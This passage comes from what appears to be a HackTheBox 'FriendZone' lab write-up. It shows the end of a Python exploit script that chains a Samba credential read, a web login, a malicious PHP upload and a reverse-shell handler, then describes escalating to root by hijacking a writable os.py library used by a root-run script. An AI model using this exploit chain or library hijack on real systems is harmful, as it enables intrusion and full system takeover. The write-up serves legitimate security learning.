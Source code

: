 ```py
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Get the password for the web interface
    SambaRead(rhost)
    # Login in it
    LoginWeb(rhost,creds)
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Upload Malicious php
    SambaUpload(rhost)
    # Get RCE
    getReverse(lhost,lport)
    
if __name__ == '__main__':
    main()
```

# www-data --> Root

Now, let's get root in this box.

We upload the [pspy](https://github.com/DominicBreuker/pspy/releases)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2012:46:28.png)

We execute it and see a file called reporter.py is being execute as root in this server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2012:51:38.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2012:52:01.png)

We execute the [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/linpeas.sh) in this server also

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2012:54:00.png)

We see that we can write to the os.py file, library which the reporter.py script call, so if we put a reverse shell in it, it'll execute as root!

## Python Path Hijack

The attack we will perform here is called python path hijack, it's very well described in [this](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) post.

First we need to see what is the path from what the python look for libraries

```sh
python -c 'import sys; print "\n".join(sys.path)'
```
